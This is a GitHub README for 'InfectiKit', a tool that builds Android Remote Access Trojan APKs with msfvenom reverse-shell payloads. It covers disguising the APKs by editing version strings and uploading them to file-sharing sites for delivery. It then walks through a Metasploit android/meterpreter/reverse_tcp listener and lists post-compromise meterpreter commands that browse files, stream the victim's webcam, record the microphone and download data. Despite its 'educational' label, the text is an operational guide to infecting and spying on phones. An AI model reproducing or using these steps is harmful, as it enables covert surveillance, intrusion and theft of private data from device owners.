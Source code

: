 # **InfectiKit - Android RAT (Remote Access Trojan)**

**InfectiKit** is a powerful tool designed for creating and managing Android RATs (Remote Access Trojans), allowing users to generate malicious APKs with reverse shell payloads using **msfvenom**. It also includes features for modifying APK files, such as changing version information and replacing strings, as well as uploading generated files to file-sharing services. This tool integrates with **Metasploit** to facilitate penetration testing and educational purposes related to Android security.

---

## **Features**
- **Generate Android RAT APKs**: Create custom Trojan APKs with reverse shell payloads using **msfvenom**.
- **Modify APK Version Information**: Change the `versionName` and `versionCode` in APK files.
- **Replace Strings in APK**: Replace specific strings in APK files for further customization.
- **Upload Files**: Upload generated APK files to file-sharing services like **transfer.sh** or **file.io**.

---

### Step 1: **Installation Process**

1. **Clone the repository** from GitHub:

    ```bash
    git clone https://github.com/manojxshrestha/InfectiKit.py.git
    ```

2. **Change to the project directory**:

    ```bash
    cd InfectiKit.py
    ```

### Step 2: **Set Up a Virtual Environment (Optional but Recommended)**
Creating a virtual environment for this project helps manage dependencies and avoid conflicts with your global Python packages.

1. **Create a virtual environment**:

    ```bash
    python3 -m venv infectikit-env
    ```

2. **Activate the virtual environment**:

    - On Linux/macOS:

      ```bash
      source infectikit-env/bin/activate
      ```

    - On Windows:

      ```bash
      .\infectikit-env\Scripts\activate
      ```

   Once activated, your prompt should change to `(infectikit-env)` indicating that you're working inside the virtual environment.

### Step 3: **Install Dependencies**
Since the `InfectiKIt.py` repository may not include a `requirements.txt` file, you need to manually create one to install the necessary Python dependencies.

1. **Create the `requirements.txt` file** with the following content:

    ```bash
    nano requirements.txt
    ```

    Add these lines to the file:

    ```
    requests
    Pillow
    ```

    Save the file by pressing `CTRL + X`, then `Y`, and `Enter`.

2. **Install the dependencies** by running:

    ```bash
    pip install -r requirements.txt
    ```

### Step 4: **Run the Tool**
Once the dependencies are installed, you can run the `InfectiKIt.py` tool.

1. **Run the tool** with the following command:

    ```bash
    python3 InfectiKIt.py
    ```

2. The tool will start, and you’ll be presented with a menu to choose from various actions (e.g., generate APK, modify APK version, etc.).

### Step 5: **Follow On-Screen Instructions**
After running the tool, follow the on-screen instructions to use the tool effectively.

- You’ll likely be asked for input such as:
  - **Local IP Address and Port** to create a trojan APK using `msfvenom`.
  - Various modifications like changing the version or replacing strings in the APK.

---

### Step 5. **Deploy the APK**

### **Set Up the Listener (Metasploit)**
If the APK was created to generate a reverse shell (using `msfvenom`), you need to set up a **listener** to handle the connection.

#### **Launch Metasploit Framework:**
Start Metasploit:
```bash
msfconsole
```

#### **Set Up the Listener:**
 Use the **multi/handler** module:
   ```bash
   use exploit/multi/handler
   ```
 Set the payload to match the one used in your APK:
   ```bash
   set payload android/meterpreter/reverse_tcp
   ```
 Set the **LHOST** (local IP) and **LPORT** (port) values:
   ```bash
   set LHOST 192.168.18.88  # Replace with your local IP
   set LPORT 4444           # Use the same port you specified
   ```
 Start the listener:
   ```bash
   exploit
   ```

---

### **Trigger the APK**
Once the APK is installed and opened on the target device, it will attempt to connect back to the Metasploit listener. If the connection is successful, you’ll see a `meterpreter` session in Metasploit.

---

### Step 6. **Interact with the Target**
After gaining a session, you can interact with the target device. For example:
- List files:
  ```bash
  meterpreter > ls
  ```
- Access the camera:
  ```bash
  meterpreter > webcam_stream
  ```
- Record audio:
  ```bash
  meterpreter > record_mic
  ```
- Download files:
  ```bash
  meterpreter > download /sdcard/filename
  ```
  
### Troubleshooting
If you run into any errors or issues:
- Ensure that all dependencies are installed correctly.
- If any part of the script throws an error, check the Python version (`python3 --version`) and make sure you're running the script within the virtual environment.

---

This should be enough to get the tool up and running!
